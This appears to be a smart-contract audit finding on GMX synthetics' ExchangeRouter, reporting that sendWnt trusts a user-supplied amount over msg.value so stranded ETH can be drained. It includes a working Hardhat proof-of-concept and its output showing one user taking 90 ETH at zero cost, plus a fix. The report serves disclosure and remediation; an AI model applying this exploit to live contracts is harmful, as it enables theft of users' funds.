J4de

high

# `sendWnt` function may have remaining ETH and can be stolen by anyone

## Summary

`sendWnt` function may have remaining ETH and can be stolen by anyone.

## Vulnerability Detail

```solidity
    // @dev Wraps the specified amount of native tokens into WNT then sends the WNT to the specified address
    function sendWnt(address receiver, uint256 amount) external payable nonReentrant {
        ReceiverUtils.validateReceiver(receiver);
        TokenUtils.depositAndSendWrappedNativeToken(dataStore, receiver, amount);
    }
```

The amount of ETH received by `sendWnt` function is `msg.value`, but the actual processing quantity is entered according to the amount.

Such a design is unreasonable, because it relies on the user is be trusted (impossible) or the ETH balance of the contract to always be 0 (when `amount > msg.value`, this contract will have insufficient balance to transfer money to the WNT contract).

## Impact

1. If the ETH transferred by the user is greater than the `amount`, the remaining of ETH will be stranded in the `ExchangeRouter` contract, resulting in loss of user's ETH.
2. When the `ExchangeRouter` contract contains ETH (such as the first point occurs or other situations), the attacker can steal all ETH through this function.

Here is my POC:

```js
  it("J4de audit test", async () => {
    // user0 paid more ETH than requested
    console.log("[*] exchangeRouter' ETH balance: " + await provider.getBalance(exchangeRouter.address));
    console.log("[*] user0 paid more ETH than requested");
    await exchangeRouter.connect(user0).multicall([
      exchangeRouter.interface.encodeFunctionData("sendWnt", [depositVault.address, expandDecimals(10, 18)])
    ], { value: expandDecimals(100, 18) });

    // The remaining ETH is now stored in the exchangeRouter contract
    console.log("[*] The remaining ETH is now stored in the exchangeRouter contract");
    console.log("[*] exchangeRouter' ETH balance: " + await provider.getBalance(exchangeRouter.address));

    // user1 steals the remaining ETH in exchangeRouter and sends WNT to its own address
    console.log("[*] user1's WNT balance: " + await wnt.balanceOf(user1.address));
    console.log("[*] user1 steals the remaining ETH in exchangeRouter and sends WNT to its own address");
    await exchangeRouter.connect(user1).multicall([
      exchangeRouter.interface.encodeFunctionData("sendWnt", [user1.address, expandDecimals(90, 18)])
    ], { value: 0 });
    console.log("[*] exchangeRouter' ETH balance: " + await provider.getBalance(exchangeRouter.address));
    console.log("[*] user1's WNT balance: " + await wnt.balanceOf(user1.address));
  });
```

Insert the above use case into the `ExchangeRouter.ts` file. The result of the operation is as follows:

```bash
J4de@J4de:~/gmx-synthetics$ npx hardhat test --grep "J4de audit test"


  ExchangeRouter
[*] exchangeRouter' ETH balance: 0
[*] user0 paid more ETH than requested
[*] The remaining ETH is now stored in the exchangeRouter contract
[*] exchangeRouter' ETH balance: 90000000000000000000
[*] user1's WNT balance: 0
[*] user1 steals the remaining ETH in exchangeRouter and sends WNT to its own address
[*] exchangeRouter' ETH balance: 0
[*] user1's WNT balance: 90000000000000000000
    ✔ J4de audit test (80ms)


  1 passing (13s)

```

user1 steals all ETH in the contract at zero cost and converts it into WETH to his own account.

## Code Snippet

https://github.com/sherlock-audit/2023-02-gmx/blob/main/gmx-synthetics/contracts/router/ExchangeRouter.sol#L94-L97

## Tool used

Manual Review

## Recommendation

Use `msg.value` to handle logic instead of the `amount` passed in by the user.